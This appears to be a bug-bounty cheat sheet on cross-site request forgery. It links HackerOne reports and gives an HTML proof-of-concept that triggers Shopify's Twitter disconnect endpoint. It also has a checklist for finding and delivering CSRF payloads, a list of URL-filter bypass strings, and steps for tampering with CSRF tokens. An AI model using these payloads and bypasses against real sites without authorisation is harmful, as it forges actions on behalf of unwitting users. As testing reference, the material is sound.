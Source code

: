 
# Real World Reports
[Shopify Twitter Disconnect](https://hackerone.com/reports/111216)
[Badoo CSRF to Account TakeOver](https://hackerone.com/reports/127703/)

    POC
    <html>
    <body>
    <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
      </body>
    </html>

# Finding Your First CSRF!

1. Spot the state-changing actions on the application and keep a note on
their locations and functionality.
2. Check these functionalities for CSRF protection. 
If you can’t spot any protections, you might have found a vulnerability!
3. If any CSRF protection mechanisms are present, try to bypass the protection
4. Confirm the vulnerability by crafting a malicious HTML page and visiting that page to see if the action has executed.
5. Think of strategies for delivering your payload to end users.
6. Draft your first CSRF report!


# CSRF Filter Bypass

    \/yoururl.com
    \/\/yoururl.com
    \\yoururl.com
    //yoururl.com
    //theirsite@yoursite.com
    /\/yoursite.com
    https://yoursite.com%3F.theirsite.com/
    https://yoursite.com%2523.theirsite.com/
    https://yoursite?c=.theirsite.com/ (use # \ also)
    //%2F/yoursite.com
    ////yoursite.com
    https://theirsite.computer/
    https://theirsite.com.mysite.com
    /%0D/yoursite.com (Also try %09, %00, %0a, %07)
    /%2F/yoururl.com
    /%5Cyoururl.com
    //google%E3%80%82com


From https://whitton.io/articles/messenger-site-wide-csrf/
The way I normally check for these is as follows:

1 Perform the request without modifying the parameters, so we can see what the expected result is
2 Remove the CSRF token completely (in this case, the fb_dtsg parameter)
3 Modify one of the characters in the token (but keep the length the same)
4 Remove the value of the token (but leave the parameter in place)
5 Convert to a GET request

